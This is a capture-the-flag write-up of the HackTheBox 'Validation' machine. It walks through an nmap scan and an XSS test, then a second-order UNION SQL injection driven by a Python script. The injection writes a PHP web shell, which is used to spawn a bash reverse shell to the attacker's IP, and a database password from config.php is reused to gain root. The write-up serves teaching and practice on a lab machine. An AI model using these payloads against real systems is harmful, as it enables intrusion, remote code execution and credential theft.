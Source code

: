 ```yaml
---
title: Validation
tags:
  - HackTheBox
  - Easy
  - Linux
  - SQLi
  - Python-Scripting
---
```

![](Pasted%20image%2020241121101424.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.116 validation.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- validation.htb > sC.txt

[redacted]
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy
|_http-title: 502 Bad Gateway
```

So I decided to take a look at the website:

![](Pasted%20image%2020241121101821.png)

I entered some testing usernames: 

![](Pasted%20image%2020241121101911.png)

So I decided to test some basic XSS and got one working:

```js
"><script>alert('xss')</script>
```

![](Pasted%20image%2020241121102102.png)

I couldn't get anything from this, so I decided to capture the request with Burp and inspect the petition. I noticed that if I sent the petition multiple times, the cookie was always the same for the same user, so now I know that the **user cookie is not random**:

![](Pasted%20image%2020241121102401.png)

If I do:

```shell
echo -n "pepe" | md5sum
# 926e27eecdbc7a18858b3798ba99bddd
```

I get that exactly cookie (which is basic md5). I can't do anything with this also.

So I decided to perform basic SQLi with Burp in the parameter `country`:

![](Pasted%20image%2020241121103754.png)

Now I use the generated cookie to load `validation.php`again (I did it with other user btw):

![](Pasted%20image%2020241121104107.png)

Here we can notice that an exception occurred:

```js
Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

This is a second-order SQLi.

So I can guess that there is a SQL query running behind. I tried a UNION SQLi:

```sql
Brazil' UNION SELECT 1 -- -
```

![](Pasted%20image%2020241121104542.png)

 So now we can notice that there are no errors displayed and there seems to be a column named `1`. Now I decided to use a python script to execute commands instead of using Burp Repeater:

```python
#!/usr/bin/env python3

import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd

class Term(Cmd):
    prompt = "$> "

    def default(self, args):
        name = f'gitblanc-{random.randrange(1000000,9999999)}'
        resp = requests.post('http://validation.htb/',
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                # Here goes the SQLi in the post data
                data={"username": name, "country": f"' union {args};-- -"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        if soup.li:
            print('\n'.join([x.text for x in soup.findAll('li')]))

    def do_quit(self, args):
        return 1

term = Term()
term.cmdloop()
```

![](Pasted%20image%2020241121105219.png)

I'll enumerate the database with:

```sql
select schema_name from information_schema.schemata
```

![](Pasted%20image%2020241121105422.png)

I'm interested in the `registration` database. So I'll enumerate it:

```sql
select table_name from information_schema.tables where table_schema='registration'
```

It has only a ingle table also called `registration`:

![](Pasted%20image%2020241121105648.png)

Now I'll enumerate it:

```sql
select column_name from information_schema.columns where table_name='registration'
```

![](Pasted%20image%2020241121105753.png)

Unfortunately, there is no password or whatever. So i decided to try to introduce a webshell using `INTO OUTFILE` function:

```sql
select "gitblanc trying to webshell" into outfile '/var/www/html/gitblanc.txt'
```

![](Pasted%20image%2020241121110215.png)

I got it! So I can now introduce a web shell:
- I'll use one on [Reverse shells 👾](/notes/reverse_shells.md)

```sql
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/gitblanc.php'
```

> I got it!

![](Pasted%20image%2020241121110557.png)

Now it's time to execute a reverse shell inside the web shell:

```shell
curl -s http://validation.htb/gitblanc.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.11/666 0>&1"'
```

![](Pasted%20image%2020241121111109.png)

> I got a reverse shell

## Privilege Escalation

I decided to inspect further the machine and only found `/var/www/html(config.php`:

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

So I decided to test this password against `root` (it's always worth to check):

![](Pasted%20image%2020241121111554.png)

> *Astonishingly, this worked*

So I can now read both user and root flag :D

![](Pasted%20image%2020241121111742.png)

==Machine pwned!==



